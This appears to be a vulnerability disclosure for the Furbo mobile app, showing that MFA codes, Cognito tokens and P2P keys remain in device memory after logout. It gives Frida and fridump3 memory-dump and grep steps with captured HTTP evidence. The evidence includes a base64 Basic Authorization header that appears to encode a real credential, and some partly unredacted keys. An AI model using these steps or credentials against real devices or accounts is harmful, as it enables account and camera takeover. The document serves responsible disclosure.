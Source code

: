 #### Affected entity:

- Furbo Mobile Application

#### Impact:

An attacker who obtains access to the device of a Furbo account owner may be able to retrieve the MFAAuthCode, Cognito Authentication token, as well as P2P authentication codes associated with the account from the device's memory. This information persists on the device after the mobile application has been closed.

#### Replication Steps:

****Preparation:****

1. On a jail broken Android device, connect a web proxy such as Burp Suite or ZAP to monitor the traffic from the Furbo mobile application.
2. Open the application, authenticate.
3. Navigate around the application, connect to a device on your account.
4. Log out of the application.
5. Swipe up and close the application process.
6. In the web proxy history, locate a request to /v5/account/read/login, copy sensitive values from the response body such as the MFA Auth Code.
7. In the web proxy history, locate a request to /v5/device/p2p_connection/get and copy the values from the response body.

****Exploitation:****

1. Ensure Frida has been installed on the device.
2. Download fridump3 from: [https://github.com/rootbsd/fridump3](https://github.com/rootbsd/fridump3)
3. Run: fridump3 -v -u -s Furbo
4. In the output directory created, executed a grep command with partial strings from the response bodies collected in step 6 and 7 of preparation. For example: grep -ri ".eJwFwc26QkAAANB3aWtBfFMsWjD-"
5. Observe that these sensitive details were kept in memory, despite being signed out and the application having been closed.

#### Evidence:
```
POST /v5/account/read/login HTTP/2  
Host: product.furbo.co  
Authorization: Basic dG9tb2Z1bnJkOmhhcHB5UGV0MTIz  
Content-Type: application/json; charset=UTF-8  
Content-Length: 909  
Accept-Encoding: gzip, deflate, br  
User-Agent: okhttp/4.12.0  
  
  
{"Email":"j[REDACTED]m","EncPassword":"iO[REDACTED]\n","MobileId":"73[REDACTED]03","MfaAuthCode":***".eJ[REDACTED]JA"***,
```


P2P Authentication code request: 
```
POST /v5/device/p2p_connection/get HTTP/2
Host: product.furbo.co
Authorization: Basic dG9tb2Z1bnJkOmhhcHB5UGV0MTIz
Content-Type: application/x-www-form-urlencoded
Content-Length: 665
Accept-Encoding: gzip, deflate, br
User-Agent: okhttp/4.12.0
...snip...

HTTP/2 200 OK
Date: Thu, 06 Mar 2025 22:34:26 GMT
Content-Type: application/json
Content-Length: 102
Server: Apache/2.4.41 (Ubuntu)

{
  "AuthKey": ***"XG[REDACTED]U6"***, 
  "P2PAccountId": "D0[REDACTED]F2", 
  "P2PAccountKey": "A0[REDACTED]ND"
}                                                                                                                  ```                                                                                                    

#### Grepping memory dump for sensitive information:
```
grep -riab ***".eJwFwc26QkAAANB3aWtBfFMsWjD-b_4nGbvKaIYUX2TG099zdkntNbn7KUB61dgIq1C2xRkH9O4p1rF5g0foEx7FfVze9veEsSCuaQ5_YBuANPAUiOp1w"***
335544320_dump.data:***.eJ[REDACTED]com_two_step_verify_candidate_codep***

grep -riab ***"A0[REDACTED]ND"***
NewHomeViewModel onStatusChange id=D[REDACTED]F2(0), status=Connected\n2199 P2PCmdImplListener onSetVideoQualitySuccess(0)\n2199 P2PCmd(0) setP2PCmdListener(0), from: home view model\n2200 NewHomeViewModel setHomeLiveData i=0, device=D07CB28F66F2, p2pStatus=Connected, deviceSize
strings.txt:835367:cting, Step2: result......0  ***D0[REDACTED]F2***, A0kSCRxsePYreND resned
  "P2PAccountKey": "A0[REDACTED]ND"

grep -riab ***"XG[REDACTED]U6"***
                                                                      NP%/�pperProperty(), props: {\"User Device Type\":\"NORMAL\"}\n1708 P2P(0) state=Connecting,T UIDEx 1741301851151, 0, XGuuM1U6\n1708 FurboRemoteConfigManager parseConfigToSelfServiceUnitView success: \n1708 EventLog_Mixpanel setPeopleProperty(), key: Furbo Product ID, value: [\"FB0035\"]\n1709 EventLog_Mixpanel setPeopleProperty(
gToSelfServiceUnitView success: \n1712 FurboRemoteConfigManager parseConfigToSelfServiceUnitView
  "AuthKey": ***"XG[REDACTED]U6"***, 
  
grep -riab ***"D0[REDACTED]F2"***                                                                                         [\"D07CB28F66F2\"]\n1709 EventLog_Mixpanel setPeopleProperty(), key: Firmware, value: [\"036\"]\n1709 EventLog_Mixpanel setPeopleProperty(), key: Firmware Library, value: [\"002.046\"]\n1709 EventLog_Mixpanel setPeopleProperty(), key: Furbo Device Type, value: [\"NORMAL\"]\n1710 EventLog_Mixpan�Z,>&'el setPeopleProperty(), key: Furbo Pet Type, value: [\"Dog\"]\n1710 TrackTimer, device init finish, cost 46ms\n1710 FurboRemoteConfigManager parseConfigToSelfServiceUnitView success: \n1712 FurboRemoteConfigManager parseConfigToSelfServiceUnitView
                                                                                                                     "P2PAccountId": ***"D0[REDACTED]F2"***       
```
